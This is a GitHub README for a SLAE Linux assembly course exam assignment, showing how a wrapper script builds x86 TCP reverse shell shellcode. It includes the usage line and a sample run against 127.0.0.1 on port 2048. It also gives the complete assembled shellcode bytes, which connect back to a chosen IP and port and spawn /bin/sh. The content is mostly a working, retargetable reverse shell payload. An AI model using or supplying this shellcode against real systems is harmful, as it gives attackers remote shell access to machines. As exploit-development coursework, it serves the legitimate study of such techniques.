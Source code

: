 # SLAE
Repository for the SLAE exam  
Student **SLAE-891**  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 2
Shell_Reverse_TCP Shellcode  
  
You can customize the listening port and generate the TCP reverse shellcode with the following command:  
```bash
./wrapper.sh
Usage: ./wrapper.sh <ip> <port_number> <template_file>
```
```bash
./wrapper.sh 127.0.0.1 2048 ./shell_reverse_tcp.template
----------------------------
[*] HEXFMTPORT:0800
[*] HEXFMTPORT1:0x08
[*] HEXFMTPORT2:dl
[*] HEXFMTIP1:0x7f
[*] HEXFMTIP2:dl
[*] HEXFMTIP3:dl
[*] HEXFMTIP4:0x1
----------------------------

[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\xc6\x04\x24\x7f\x88\x54\x24\x01\x88\x54\x24\x02\xc6\x44\x24\x03\x01\x66\x52\xc6\x04\x24\x08\x88\x54\x24\x01\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```  
  

